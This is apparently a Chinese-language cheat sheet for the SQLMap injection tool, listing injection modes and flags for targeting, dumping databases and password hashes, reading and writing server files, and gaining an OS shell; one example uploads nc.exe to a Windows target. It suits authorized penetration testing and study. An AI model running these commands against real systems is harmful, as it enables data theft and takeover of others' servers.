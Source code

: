 # SQLMap

## 一、支持模式

- 基于布尔盲注，即可以根据返回页面判断条件真假的注入。

- 基于时间盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。

- 基于报错注入、即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。

- 联合查询注入、可以使用union的情况下的注入。

- 堆查询注入、可以同时执行多条语句的执行时的注入。

- 内联查询注入、在sql语句中执行sql语句

## 二、常用命令

### 1.选项

```
-h,--help  显示基本帮助信息并退出
-hh        显示高级帮助信息并退出
--version  显示程序版本信息并退出
--batch    非交互模式，适用于自动化
```

### 2,目标

```
-u  目标URL  
例：sqlmap -u "www.abc.com/index.php?id=1"
-m  后接一个txt文件，文件中是多个url，sqlmap会自动化的检测其中的所有url。
例：sqlmap -m target.txt
-r  可以将一个post请求方式的数据包(bp抓包)保存在一个txt中，sqlmap会通过post方式检测目标。
例：sqlmap -r bp.txt
```

### 3.请求

```
--method=METHOD 指定是get方法还是post方法。
例： --method=GET --method=POST
--random-agent  使用随机user-agent进行测试。sqlmap有一个文件中储存了各种各样的user-agent，文件在sqlmap/txt/user-agent.txt 在level>=3时会检测user-agent注入。
--proxy=PROXY 指定一个代理。
例： --proxy="127.0.0.1:8080" 使用GoAgent代理。
```

### 4.测试等级

```
--level=LEVEL  执行测试的等级（1-5，默认为1） 
lv2：cookie; lv3：user-agent，refere; lv5：host 
在sqlmap/xml/payloads文件内可以看见各个level发送的payload
```

### 5.拖库

```
-b, --banner        获取数据库管理系统的标识
--current-user      获取数据库管理系统当前用户
--current-db        获取数据库管理系统当前数据库
--hostname          获取数据库服务器的主机名称
--is-dba            检测DBMS当前用户是否DBA
--users             枚举数据库管理系统用户
--passwords         枚举数据库管理系统用户密码哈希
--privileges        枚举数据库管理系统用户的权限
--dbs              枚举数据库管理系统数据库
--tables           枚举DBMS数据库中的表
--columns          枚举DBMS数据库表列
-D                  要进行枚举的指定数据库名
-T                  要进行枚举的指定表名
-C                  要进行枚举的指定列名
--dump             转储数据库表项,查询字段值
--search           搜索列（S），表（S）和/或数据库名称（S）
--sql-query=QUERY   要执行的SQL语句
--sql-shell         提示交互式SQL的shell
```

### 6.文件操作

```
--file-read=RFILE     从后端的数据库管理系统文件系统读取文件
--file-write=WFILE    编辑后端的数据库管理系统文件系统上的本地文件
--file-dest=DFILE     后端的数据库管理系统写入文件的绝对路径
例：在kali中将/software/nc.exe文件上传到C:/WINDOWS/Temp下
sqlmap -u "http://192.168.101.2/sqlmap/mysql/login.php?id=1" --file-write="/software/nc.exe" --file-dest="C:/WINDOWS/Temp/nc.exe"
```

### 7.渗透操作系统

```
--is-dba            判断是否DBA，如果具备DBA权限，可以尝试执行操作系统命令
--os-cmd=OSCMD      执行操作系统命令（OSCMD）
--os-shell          交互式的操作系统的shell
```

